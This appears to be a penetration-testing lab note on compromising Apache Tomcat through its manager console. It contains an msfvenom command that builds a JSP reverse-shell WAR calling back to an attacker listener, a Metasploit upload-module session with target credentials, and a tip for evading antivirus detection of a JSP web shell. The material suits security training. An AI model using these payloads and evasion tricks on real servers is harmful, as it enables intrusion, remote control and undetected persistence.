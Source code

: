 We could also use `msfvenom` to generate a malicious WAR file. The payload [java/jsp\_shell\_reverse\_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.:

{% code overflow="wrap" %}
```shell
$ sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```
{% endcode %}

> _The_ [_multi/http/tomcat\_mgr\_upload_](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/) _Metasploit module can be used to automate the process shown above._

[This](https://github.com/SecurityRiskAdvisors/cmd.jsp) JSP web shell is very lightweight (under 1kb) and utilizes a [Bookmarklet](https://www.freecodecamp.org/news/what-are-bookmarklets/) or browser bookmark to execute the JavaScript needed for the functionality of the web shell and user interface. Without it, browsing to an uploaded `cmd.jsp` would render nothing. This is an excellent option to minimize our footprint and possibly evade detections for standard JSP web shells (though the JSP code may need to be modified a bit). The web shell as is only gets detected by 2/58 anti-virus vendors.

A simple change such as changing:

```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```

to:

```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```

results in 0/58 security vendors flagging the `cmd.jsp` file as malicious at the time of writing.

{% tabs %}
{% tab title="First Tab" %}

{% endtab %}

{% tab title="MSF" %}
adsa

```bash
> use multi/http/tomcat_mgr_upload
> exploit(multi/http/tomcat_mgr_upload) > set VHOST web01.inlanefreight.local
> exploit(multi/http/tomcat_mgr_upload) > set LHOST tun0
> exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.129.201.58
> exploit(multi/http/tomcat_mgr_upload) > set HTTPPASSWORD root
> exploit(multi/http/tomcat_mgr_upload) > set HTTPUSERNAME tomcat
> exploit(multi/http/tomcat_mgr_upload) > set RPORT 8180
> exploit(multi/http/tomcat_mgr_upload) > run
```
{% endtab %}
{% endtabs %}
